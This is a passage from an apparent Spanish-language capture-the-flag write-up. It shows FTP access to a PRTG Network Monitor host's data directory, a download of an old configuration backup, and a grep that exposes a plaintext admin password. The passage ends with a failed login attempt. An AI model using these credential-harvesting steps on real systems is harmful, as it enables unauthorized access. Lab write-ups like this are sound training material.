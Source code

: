 Probaremos de acceder a la ruta mencionada y comprobamos que logramos acceder y visualizar varia información del `PRTG`.

```bash
ftp> cd "ProgramData\Paessler\PRTG Network Monitor"
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49936|)
125 Data connection already open; Transfer starting.
01-24-25  03:09PM       <DIR>          Configuration Auto-Backups
01-24-25  03:09PM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
01-24-25  03:09PM       <DIR>          Logs (Web Server)
01-24-25  03:09PM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
01-24-25  03:10PM              1640100 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
226 Transfer complete.
```

Entre la información y datos que encontramos, nos llamó la atención un archivo con extensión `.bak` que parece ser un backup del archivo de configuración antiguo. Nos lo descargaremos en nuestro equipo para analizar el archivo.

```bash
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
229 Entering Extended Passive Mode (|||49944|)
125 Data connection already open; Transfer starting.
100% |*********************************************|  1126 KiB    1.11 MiB/s    00:00 ETA
226 Transfer complete.
1153755 bytes received in 00:01 (1.06 MiB/s)
```

Analizaremos el archivo y filtraremos por el nombre de usuario que utiliza por defecto `PRTG`, logramos encontrar lo que parecen ser unas credenciuales de acceso.

```bash
❯ cat PRTG\ Configuration.old.bak | grep -C 2  'prtgadmin'
            </dbcredentials>
            <dbpassword>
	     <!-- User: prtgadmin -->
	     PrTg@dmin2018
            </dbpassword>
```

Probamos de acceder al panel de `PRTG` con las credenciales de `prtgadmin/PrTg@dmin2018`, pero no logramos obtener el acceso que esperábamos.
